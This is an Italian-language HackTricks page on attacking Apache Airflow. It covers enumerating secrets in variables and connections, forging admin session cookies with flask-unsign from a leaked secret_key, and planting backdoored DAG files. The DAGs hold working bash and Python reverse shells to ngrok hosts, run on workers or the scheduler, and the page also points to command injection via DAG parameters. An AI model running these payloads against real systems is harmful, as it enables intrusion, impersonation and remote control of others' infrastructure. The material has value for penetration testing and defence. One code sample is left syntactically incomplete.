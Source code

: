 # Sicurezza di Apache Airflow

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>
{% endhint %}

### Informazioni di Base

[**Apache Airflow**](https://airflow.apache.org) funge da piattaforma per **orchestrare e pianificare pipeline di dati o flussi di lavoro**. Il termine "orchestrazione" nel contesto delle pipeline di dati indica il processo di organizzazione, coordinamento e gestione di flussi di lavoro complessi di dati provenienti da varie fonti. Lo scopo principale di queste pipeline di dati orchestrate è fornire set di dati elaborati e utilizzabili. Questi set di dati sono ampiamente utilizzati da una miriade di applicazioni, tra cui, ma non solo, strumenti di business intelligence, modelli di data science e machine learning, tutti fondamentali per il funzionamento delle applicazioni di big data.

Fondamentalmente, Apache Airflow ti permetterà di **pianificare l'esecuzione di codice quando qualcosa** (evento, cron) **accade**.

### Laboratorio Locale

#### Docker-Compose

Puoi utilizzare il **file di configurazione docker-compose da** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) per avviare un ambiente docker completo di apache airflow. (Se sei su MacOS assicurati di dare almeno 6GB di RAM alla VM docker).

#### Minikube

Un modo semplice per **eseguire apache airflow** è farlo **con minikube**:
```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```
### Configurazione di Airflow

Airflow potrebbe memorizzare **informazioni sensibili** nella sua configurazione o potresti trovare configurazioni deboli in atto:

{% content-ref url="airflow-configuration.md" %}
[airflow-configuration.md](airflow-configuration.md)
{% endcontent-ref %}

### RBAC di Airflow

Prima di iniziare ad attaccare Airflow, dovresti comprendere **come funzionano i permessi**:

{% content-ref url="airflow-rbac.md" %}
[airflow-rbac.md](airflow-rbac.md)
{% endcontent-ref %}

### Attacchi

#### Enumerazione della Console Web

Se hai **accesso alla console web**, potresti essere in grado di accedere ad alcune o a tutte le seguenti informazioni:

* **Variabili** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* **Connessioni** (Informazioni sensibili personalizzate potrebbero essere memorizzate qui)
* Accedile in `http://<airflow>/connection/list/`
* [**Configurazione**](./#airflow-configuration) (Informazioni sensibili come il **`secret_key`** e le password potrebbero essere memorizzate qui)
* Elenca **utenti e ruoli**
* **Codice di ogni DAG** (che potrebbe contenere informazioni interessanti)

#### Recupera i Valori delle Variabili

Le variabili possono essere memorizzate in Airflow in modo che i **DAG** possano **accedere** ai loro valori. È simile ai segreti di altre piattaforme. Se hai **sufficienti permessi**, puoi accedervi nella GUI in `http://<airflow>/variable/list/`.\
Airflow per impostazione predefinita mostrerà il valore della variabile nella GUI, tuttavia, secondo [**questo**](https://marclamberti.com/blog/variables-with-apache-airflow/), è possibile impostare un **elenco di variabili** il cui **valore** apparirà come **asterischi** nella **GUI**.

![](<../../.gitbook/assets/image (164).png>)

Tuttavia, questi **valori** possono ancora essere **recuperati** tramite **CLI** (è necessario avere accesso al DB), esecuzione di **DAG** arbitrari, **API** che accede all'endpoint delle variabili (l'API deve essere attivata) e **anche la GUI stessa!**\
Per accedere a quei valori dalla GUI, basta **selezionare le variabili** che desideri accedere e **cliccare su Azioni -> Esporta**.\
Un altro modo è eseguire un **bruteforce** sul **valore nascosto** utilizzando il **filtro di ricerca** fino a ottenerlo:

![](<../../.gitbook/assets/image (152).png>)

#### Escalation dei Privilegi

Se la configurazione **`expose_config`** è impostata su **True**, dal **ruolo Utente** e **superiore** possono **leggere** la **configurazione nel web**. In questa configurazione, appare il **`secret_key`**, il che significa che qualsiasi utente con questo valido può **creare il proprio cookie firmato per impersonare qualsiasi altro account utente**.
```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```
#### DAG Backdoor (RCE in Airflow worker)

Se hai **accesso in scrittura** al luogo in cui i **DAG vengono salvati**, puoi semplicemente **crearne uno** che ti invierà una **reverse shell.**\
Nota che questa reverse shell verrà eseguita all'interno di un **contenitore worker di airflow**:
```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
dag_id='rev_shell_bash',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = BashOperator(
task_id='run',
bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
)
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

with DAG(
dag_id='rev_shell_python',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python',
python_callable=rs,
op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
)
```
#### DAG Backdoor (RCE nel scheduler di Airflow)

Se imposti qualcosa per essere **eseguito nella radice del codice**, al momento della scrittura di questo documento, verrà **eseguito dallo scheduler** dopo un paio di secondi dalla sua collocazione all'interno della cartella del DAG.
```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
s = socket.socket()
s.connect((rhost, port))
[os.dup2(s.fileno(),fd) for fd in (0,1,2)]
pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
dag_id='rev_shell_python2',
schedule_interval='0 0 * * *',
start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
run = PythonOperator(
task_id='rs_python2',
python_callable=rs,
op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```
#### Creazione di DAG

Se riesci a **compromettere una macchina all'interno del cluster DAG**, puoi creare nuovi **script DAG** nella cartella `dags/` e verranno **replicati nel resto delle macchine** all'interno del cluster DAG.

#### Iniezione di Codice DAG

Quando esegui un DAG dalla GUI puoi **passare argomenti** ad esso.\
Pertanto, se il DAG non è codificato correttamente potrebbe essere **vulnerabile all'Iniezione di Comandi.**\
Questo è ciò che è accaduto in questo CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

Tutto ciò che devi sapere per **iniziare a cercare iniezioni di comandi nei DAG** è che i **parametri** sono **accessibili** con il codice **`dag_run.conf.get("param_name")`**.

Inoltre, la stessa vulnerabilità potrebbe verificarsi con **variabili** (nota che con privilegi sufficienti potresti **controllare il valore delle variabili** nella GUI). Le variabili sono **accessibili con**:
```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```
Se vengono utilizzati, ad esempio, all'interno di un comando bash, potresti eseguire un'iniezione di comandi.

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}

